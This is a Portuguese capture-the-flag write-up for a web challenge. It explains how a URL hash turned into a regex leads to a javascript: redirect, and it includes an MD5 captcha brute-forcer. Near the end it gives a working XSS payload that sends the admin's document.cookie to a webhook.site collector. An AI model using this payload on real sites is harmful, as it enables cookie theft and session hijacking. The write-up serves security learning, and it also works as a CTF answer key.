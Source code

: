 # Too Easy Boy

- Data do desafio: 2020-05-01
- Categoria: web

O desafio nos dá uma página com o seguinte código-fonte:

```html
<html><head><h1>Too Easy Boy</h1><style></style></head><body><div> </div><header><h1> </h1></header><main><script>if(!location.hash.substr(1).length<1){
    var url = location.href; 
    var regExp = new RegExp(location.hash, "g");
    url = url.replace (regExp, " ");
    window.location.href = url;
}
</script></main></body></html>
```

No mesmo formato de desafios anteriores, há uma página `/contact` onde podemos enviar um link para o "admin". No código-fonte há uma dica para resolver o captcha: inserir uma string tal que os quatro primeiros caracteres do hash MD5 sejam iguais aos caracteres dados. Este script encontra uma string adequada para os caracteres passados como argumento:

```python
import sys
import hashlib

if len(sys.argv) < 2:
  print('Missing argument')

for i in range(1, 1000000):
  m = hashlib.md5()
  m.update(str(i).encode('utf-8'))
  h = m.hexdigest()[:4]
  if h == sys.argv[1][:4]:
    print(str(i) + ' - ' + h)
    break
```

Voltando à página principal, o código:

1. verifica se há um hash na URL;
2. cria uma regex com o hash;
3. substitui a regex na URL por espaços;
4. redireciona para a URL resultante.

Portanto, se acessarmos `http://159.65.249.122:3000/#teste` a regex criada será `#teste` e seremos redirecionados para `http://159.65.249.122:3000/`.

Uma forma de executar JS é redirecionar para `javascript:alert(1)`. Você pode testar isso inserindo `window.location.href = "javascript:alert(1)"` no console do navegador.

Por enquanto, nosso payload será `javascript:alert(1)`. Precisamos de uma regex no formato `#[regex]javascript:alert(1)` que resulte em um match com `http://159.65.249.122:3000/#[regex]`, ou seja, uma regex que faz referência a si mesma.

Vamos dividir a regex em três partes utilizando o operador lógico `|` (ou). Como a regex começa com `#`, vamos adicionar o quantificador `{2}` para evitar que o match comece apenas no hash da URL. Na segunda parte, vamos capturar toda a URL com `(.*)` até um caractere específico, como `\^`, que usaremos como delimitador. Na terceira parte, colocamos o caractere delimitador junto com payload: `^javascript...`.

Nossa regex é `#{2}|(.*)\^|^javascript...` e será utilizada na string `http://159.65.249.122:3000/#{2}|(.*)\^|^javascript...`.

- `##` (não há correspondência);
- qualquer caractere até `^` (corresponde à URL e a parte da regex, deixando apenas o payload);
` string iniciada com `javascript` (não há correspondência).

Com o payload funcionando, resta apenas enviar para o "admin" um comando para obter os cookies, como `fetch("http://webhook.site/{id}?cookie=" + document.cookie)`. O payload final é `http://159.65.249.122:3000/#{2}|(.*)\^|^javascript:fetch("https://webhook.site/{id}?c="+document.cookie)`

Flag: `HACKAFLAG{T1m3_t0_r3st4rt}`
